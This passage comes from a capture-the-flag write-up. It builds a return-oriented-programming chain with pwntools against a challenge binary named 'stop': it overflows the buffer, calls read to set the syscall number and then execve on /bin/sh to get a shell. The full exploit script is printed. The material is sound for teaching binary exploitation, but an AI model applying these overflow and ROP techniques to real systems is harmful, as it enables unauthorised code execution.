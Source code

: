 ```python
payload += p64(prsi_pr15) + p64(0x0) + p64(0x0) + p64(prbx_prbp_pr12_pr13_pr14_pr15) + p64(0x0) + p64(0x0) + p64(0x0) + p64(0x0) + p64(0x0) + p64(0x0) + p64(prdi) + p64(bin_sh) # set args for execve  
payload += p64(syscall)
```
Finally, we must first send the ropchain, then the read syscall will be called, so we pass in 58 bytes through stdin and we should get a shell.
```python
r.sendline(payload)
r.recv()
r.sendline("A" * 58)
```

Combining all the steps the final exploit looks like this:
```python
from pwn import *  
  
context.log_level = "debug"  
context.terminal = ["tmux", "split", "-h"]  
  
#r = remote("p1.tjctf.org", 8001)  
r = process("./stop")  
#gdb.attach(r)  
  
r.recv()  
r.sendline("A")  
r.recvuntil("Category? ")  
  
read_func = 0x4008E0  
syscall = 0x00000000004008e5  
prdi = 0x0000000000400953  
prsi_pr15 = 0x0000000000400951  
prbx_prbp_pr12_pr13_pr14_pr15 = 0x000000000040094A  
write_loc = 0x0000000000602100  
bin_sh = 0x0000000000400a1a  
  
payload = "A" * 280  
payload += p64(prdi) + p64(0x0) + p64(prsi_pr15) + p64(write_loc) + p64(0x0) # rop to set args for read function  
payload += p64(read_func) # execute read function to set RAX  
payload += p64(prsi_pr15) + p64(0x0) + p64(0x0) + p64(prbx_prbp_pr12_pr13_pr14_pr15) + p64(0x0) + p64(0x0) + p64(0x0) + p64(0x0) + p64(0x0) + p64(0x0) + p64(prdi) + p64(bin_sh) # set args for execve  
payload += p64(syscall)  
  
r.sendline(payload)  
r.recv()  
r.sendline("A" * 58)  
  
r.interactive()
```

